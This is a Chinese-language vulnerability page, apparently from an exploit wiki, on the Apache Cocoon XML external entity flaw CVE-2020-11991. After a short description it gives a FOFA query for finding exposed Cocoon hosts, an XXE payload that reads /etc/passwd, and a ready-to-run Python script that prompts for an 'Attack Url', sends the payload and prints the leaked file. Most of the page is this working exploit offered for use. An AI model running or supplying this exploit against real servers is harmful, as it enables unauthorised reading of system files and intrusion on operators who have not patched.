 # Apache Cocoon XML注入 CVE-2020-11991

## 漏洞描述

9月11日 Apache 软件基金会发布安全公告，修复了 Apache Cocoon xml外部实体注入漏洞（CVE-2020-11991）。

Apache Cocoon 是一个基于 Spring 框架的围绕分离理念建立的构架，在这种框架下的所有处理都被预先定义好的处理组件线性连接起来，能够将输入和产生的输出按照流水线顺序处理。用户群：Apache Lenya、Daisy CMS、Hippo CMS、Mindquarry等等，Apache Cocoon 通常被作为一个数据抽取、转换、加载工具或者是系统之间传输数据的中转站。CVE-2020-11991 与 StreamGenerator 有关，在使用 StreamGenerator 时，代码将解析用户提供的 xml。攻击者可以使用包括外部系统实体在内的特制 xml 来访问服务器系统上的任何文件。

## 影响版本

> [!NOTE]
>
> Apache Cocoon <= 2.1.12

## FOFA

> [!NOTE]
>
> app="Apache-Cocoon"

## 漏洞复现

向**/v2/api/product/manger/getInfo**  POST如下内容

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<userInfo>
<firstName>John</firstName> 
<lastName>&ent;</lastName>
</userInfo>
```

## 漏洞利用POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import requests
import base64
import sys


def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: Apache Cocoon <= 2.1.12                                  \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2020-11991                                    \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx                                 \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/v2/api/product/manger/getInfo"
    data = """
        <!--?xml version="1.0" ?-->
        <!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
        <userInfo>
        <firstName>John</firstName> 
        <lastName>&ent;</lastName>
        </userInfo>
    """
    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }

    response = requests.request("POST", url=vuln_url, data=data, headers=headers, timeout=20)
    if "/bin/bash" in response.text:
        print("\033[32m[o] 含有CVE-2020-11991漏洞，响应为{}\033[0m".format(response.text))
    else:
        print("\033[31m[x] 漏洞利用失败 \033[0m")

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)

```

